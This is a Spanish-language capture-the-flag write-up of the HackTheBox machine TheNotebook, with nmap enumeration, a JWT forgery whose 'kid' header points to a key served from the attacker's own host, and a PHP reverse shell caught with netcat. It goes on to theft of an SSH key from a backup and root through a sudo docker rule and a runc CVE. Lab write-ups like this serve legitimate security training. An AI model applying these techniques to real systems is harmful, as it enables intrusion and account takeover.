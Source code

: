 ```yaml
---
layout: post
title:  "TheNotebook - [HTB]"
date:   2021-07-31 9:20:00 +0200
last_modified_at: 2021-07-31 09:20:29 +0200
toc:  true
tags: [ctf, linux, Hackthebox, Writeup, Docker, JWT]
categories: Hackthebox
---
```



{: .message}

Es una máquina que realmente me gusto por la forma de intrusión y la escalada.

## Enumeración
### Nmap 

*Puertos:*
* 22 /tcp -> OpenSSH 7.6p1
* 80 /tcp -> nginx 1.14.0

```bash
nmap -p- --open -T5 -v 10.10.10.230 -oG Allport1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-21 21:10 EDT
Initiating Ping Scan at 21:10
Scanning 10.10.10.230 [2 ports]
Completed Ping Scan at 21:10, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 21:10
Completed Parallel DNS resolution of 1 host. at 21:10, 0.01s elapsed
Initiating Connect Scan at 21:10
Scanning 10.10.10.230 [65535 ports]
Discovered open port 80/tcp on 10.10.10.230
Discovered open port 22/tcp on 10.10.10.230
Connect Scan Timing: About 43.74% done; ETC: 21:11 (0:00:40 remaining)
Completed Connect Scan at 21:11, 97.59s elapsed (65535 total ports)
Nmap scan report for 10.10.10.230
Host is up (0.082s latency).
Not shown: 47011 filtered ports, 18522 closed ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 97.78 seconds
```
Este escaneo como siempre digo es el importante ya que nos trae versiones de los servicios:
```bash
nmap -sC -sV -p22,80 10.10.10.230 -oN ScanPort1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-21 21:22 EDT
Nmap scan report for 10.10.10.230
Host is up (0.056s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.90 seconds
```
Siempre me gusta tirar de esta utilidad para saber a qué me enfrento:

```bash
whatweb 10.10.10.230
http://10.10.10.230 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.14.0 (Ubuntu)], IP[10.10.10.230], Title[The Notebook - Your Note Keeper], nginx[1.14.0]
```

### Fuzz

Mediante wfuzz pude sacar esto: 
* -> http://10.10.10.230/bd7077f7-3d3a-43c0-a0e0-20047e819f35/notes
* -> http://10.10.10.230/admin/
	* upload
	* notes


En el cookie editor encontre lo que es una jwt que cuando se pasa por [esto](https://jwt.io/) y te muestra todo lo que necesitas para trabajar

## JWT Token bypass
Para llevar a cabo este bypass me lei este [blog](https://medium.com/swlh/hacking-json-web-tokens-jwts-9122efe91e4a)
```sql
ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in privKey.key
Your public key has been saved in privKey.key.pub
The key fingerprint is:
SHA256:6hjan3Jm1H2FExEj0WOvCy6tw6XmNc9AzYVHmp66Ny8 benji@parrot
The key's randomart image is:
+---[RSA 4096]----+
|          oo+o.  |
|           .=*   |
|           .+=o  |
|           +o+o  |
|       .S.. =+   |
|      ....+.o    |
|    .... ==o .   |
|   o.++.*.o*E    |
|  . o*+oo+..o+.  |
+----[SHA256]-----+

python3 -m http.server 7070
Serving HTTP on 0.0.0.0 port 7070 (http://0.0.0.0:7070/) ...

┌─[benj@parrot]─[~/Documents/CTF/TheNotebook]
└──╼ $echo '{"typ":"JWT","alg":"RS256","kid":"http://10.10.14.209:7070/privKey.key"}' |base64
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4yMDk6NzA3
MC9wcml2S2V5LmtleSJ9Cg==
┌─[benji@parrot]─[~/Documents/CTF/TheNotebook]
└──╼ $echo '{"username":"benji","email":"benji@htb.local","admin_cap":true}' |base64
eyJ1c2VybmFtZSI6ImJlbmppIiwiZW1haWwiOiJiZW5qaUBodGIubG9jYWwiLCJhZG1pbl9jYXAi
OnRydWV9Cg==
```

Primero se copia los dos base64 que se obtuvieron de la codificacion de las cadenas de texto. (Teniendo en cuenta que tengo un servidor en el puerto 7070)

![](/images_blog/img_thenotebook/Pastedimage20210422141532.png)

![Pastedimage20210422141532](https://user-images.githubusercontent.com/76759292/127757368-0953690d-dca7-4a53-95e4-ca1a1caea03f.png)

### Firma del token 

Para hacerlo tienes que copiar  la clave publica y la privada en https://jwt.io/.

## Reverse PHP

Aqui tengo acceso a subir un archivo php y entonces aprovechando esto, subiendo el clasico php

![](/images_blog/img_thenotebook/Pastedimage20210422142431.png)

```bash
rlwrap nc -lnvp 4444           
listening on [any] 4444 ...
connect to [10.10.14.209] from (UNKNOWN) [10.10.10.230] 59978
Linux thenotebook 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@thenotebook:/$ 
```

Primero es que nos encontramos como el usuario www-data tenemos que volvernos el usuario noah, en la ruta de backup nos encontramos con uno del diretorio completo de noah, este backup contiene una clave id_rsa del usuario noah:

```bash
/var/backups$ ls -la
total 64
drwxr-xr-x  2 root root  4096 Jul 31 16:03 .
drwxr-xr-x 14 root root  4096 Feb 12 06:52 ..
-rw-r--r--  1 root root 33585 Jul 23 14:24 apt.extended_states.0
-rw-r--r--  1 root root  3618 Feb 24 08:53 apt.extended_states.1.gz
-rw-r--r--  1 root root  3609 Feb 23 08:58 apt.extended_states.2.gz
-rw-r--r--  1 root root  3621 Feb 12 06:52 apt.extended_states.3.gz
-rw-r--r--  1 root root  4373 Feb 17 09:02 home.tar.gz
```

```bash
ls
authorized_keys  id_rsa  id_rsa.pub
```

Teniendo esto entramos por ssh:
```bash
noah@thenotebook:~$ ls
user.txt  webapp-dev01.sh
noah@thenotebook:~$ cat user.txt 
56013079b3c02c282d699ba6faec07c6
```
## PrivEsc
Para el privesc nos encontramos un contenedor que se encuentra desactualizado con una version *Docker version 18.06.0-ce* cabe destacar que docker va por la version 20.10:
```bash
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
sudo /usr/bin/docker exec -it webapp-dev01 bash
root@b778c5e32326:/opt/webapp# ls
__pycache__  admin  create_db.py  main.py  privKey.key  requirements.txt  static  templates  webapp.tar.gz
root@b778c5e32326:/opt/webapp# 

docker --version
Docker version 18.06.0-ce, build 0ffa825
```
Aqui les dejo este [CVE](https://github.com/Frichetten/CVE-2019-5736-PoC):

![](/images_blog/img_thenotebook/Pastedimage20210731171252.png)

La idea es que podemos ejecutar cualquier comando como root entonces sabiendo esto le dare permiso a la bash para cuando haga un bash -p me de una bash como root:

```bash
ls -la /bin/bash
-rwxr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```
![](/images_blog/img_thenotebook/Pastedimage20210731171606.png)

![](/images_blog/img_thenotebook/Pastedimage20210731171815.png)

Aqui vemos como tenemos acceso a la flag:
```bash
bash-4.4# ls
cleanup.sh  docker-runc  reset.sh  root.txt  start.sh
bash-4.4# cat root.txt 
9bba1908ac228fb0088747ddee6ab9b9
bash-4.4# 
```
MACHINE PWNED!!!!!

